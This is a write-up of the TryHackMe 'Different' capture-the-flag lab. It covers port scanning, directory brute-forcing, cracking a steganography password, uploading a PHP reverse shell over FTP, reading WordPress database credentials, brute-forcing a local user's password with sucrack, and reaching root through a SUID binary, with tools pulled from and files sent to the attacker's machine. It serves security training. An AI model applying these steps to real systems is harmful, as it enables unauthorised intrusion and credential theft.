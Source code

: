 ```yaml
---
title: Different CTF - Writeup
author: Elman Alizadeh
date: 2022-05-28 20:20:00 +0800
categories: [ctf, TryHackMe]
tags: [tryhackme, different,]
---
```


Today we will take a look at TryHackMe: Different CTF. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/thm-different/1.jpeg" | relative_url }})

## How many ports are open ?

```console
└─$ sudo nmap -p- -Pn -sV -sC --open  10.10.228.157          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-28 18:28 +04
Nmap scan report for 10.10.228.157
Host is up (0.15s latency).
Not shown: 65060 closed tcp ports (reset), 473 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-title: Hello World &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Unix
```

## What is the name of the secret directory ?

When we look at the page, we see that it is damaged.

![Desktop View]({{ "/assets/img/thm-different/2.png" | relative_url }})

When we look at the source code, we see the host name to be added to / etc / host

![Desktop View]({{ "/assets/img/thm-different/3.png" | relative_url }})

Command: sudo nano /etc/hosts

```console
10.10.228.157   adana.thm
```

### Gobuster

```console
Command: gobuster dir -u http://adana.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/announcements        (Status: 301) [Size: 314] [--> http://adana.thm/announcements/]
```

## Web flag ?

When we look at http://adana.thm/announcements/, we see a list of picture and words. Let’s download them.

![Desktop View]({{ "/assets/img/thm-different/4.png" | relative_url }})

### Steghide

```console
Command: stegcracker austrailian-bulldog-ant.jpg wordlist.txt

Password:123adana********

Command: steghide — extract -sf austrailian-bulldog-ant.jpg

Command: cat user-pass-ftp.txt |base64 -d
```

USER: hakanftp
PASS: 123adana*****

### FTP

```console
Command: ftp IP
```
![Desktop View]({{ "/assets/img/thm-different/5.png" | relative_url }})

Let’s add a php reverse shell to the folder we see when we log in.

```console
Command: put reverseshell.php

Command: chmod 777 reverseshell.php
```
But I couldn’t get the shell when I wrote http: //adana.thm/reverseshell.php

![Desktop View]({{ "/assets/img/thm-different/6.png" | relative_url }})

To do this, I downloaded the wp-config file and looked at its contents.

```console
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'phpmyadmin1' );

/** MySQL database username */
define( 'DB_USER', 'phpmyadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', '12345' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

http://adana.thm/phpmyadmin/

Select wp_options in phpmyadmin1 when accessing the panel. Here we see another subdomain

![Desktop View]({{ "/assets/img/thm-different/7.png" | relative_url }})

Command: sudo nano /etc/hosts

```console
10.10.228.157   adana.thm  subdomain.adana.thm
```
Now let’s take the shell

![Desktop View]({{ "/assets/img/thm-different/8.png" | relative_url }})

After logging in

```console
Command: script /dev/null -c bash

Command: export TERM=xterm

Ctrl+z                             
Command: stty raw -echo ; fg                            
Command: reset

Command: cat /var/www/html/wwe3bbfla4g.txt
```

## Hakanbey 

We will find the password of this username with bruteforce. We must first prepare a list for this. The first two passwords we found have the inscription ‘123adana’ in front of them. Let’s write them in front of the words on the list we have. I wrote code that will do this with Python:

```console
file = open('wordlist.txt', 'r')
file1 = open('new.txt', 'w')
for line in file:
       b = '123adana' + line
       file1.write(b)
file.close()
file1.close()
```

After running the code, you need a tool to check them one by one. Therefore, we will use the sucrack tool.

[pkgs.org](https://pkgs.org/download/sucrack)

Command: wget http://archive.ubuntu.com/ubuntu/pool/universe/s/sucrack/sucrack_1.2.3-6_amd64.deb

In local machine:

Command: python3 -m http.server 80

In target machine:
```console
Command: wget 10.8.223.65/sucrack_1.2.3–6_amd64.deb

Command: dpkg -x sucrack_1.2.3–6_amd64.deb sucrack

Command: mkdir brute

Command: cd brute/

Command: cp /tmp/hakanbey/sucrack/usr/bin/sucrack .

Command: cp /tmp/hakanbey/new.txt .

Command: ./sucrack -w 100 -b 500 -u hakanbey new.txt

Password: 123adana*****
```


```console
Command: cat /home/hakanbey/user.txt
```

## Root

Command: find / -perm -u=s 2>/dev/null

There is an additional parameter here. Let’s start it now and see what operation is going on behind it.

```console
hakanbey@ubuntu:/$ ltrace ./usr/bin/binary
```
![Desktop View]({{ "/assets/img/thm-different/9.png" | relative_url }})

Password: warzone*************

```console
hakanbey@ubuntu:/$ /usr/bin/binary
/usr/bin/binary
I think you should enter the correct string here ==>warzoneinadana
warzoneinadana
Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/Desktop/root.jpg (CyberChef)

Copy /root/root.jpg ==> /home/hakanbey/root.jpg
```

Let’s copy the root.jpg image to our local machine.

In target machine:

Command: python3 -m http.server 8000

In local machine

Command: wget http://10.10.228.157:8000/root.jpg


![Desktop View]({{ "/assets/img/thm-different/10.png" | relative_url }})

When looking at the given tip, you should look at the hex codes of the image, you need to decode the hex codes in the order 00000020

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex%28%27Auto%27%29To_Base85%28%27!-u%27,false%29&input=RkUgRTkgOUQgM0QgIDc5IDE4IDVGIEZDICAgODIgNkQgREYgMUMgIDY5IEFDIEMyIDc1)

![Desktop View]({{ "/assets/img/thm-different/11.png" | relative_url }})

Command: su root

![Desktop View]({{ "/assets/img/thm-different/12.png" | relative_url }})

### And now we are the root Babba ;)

![Desktop View]({{ "/assets/img/thm-different/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”


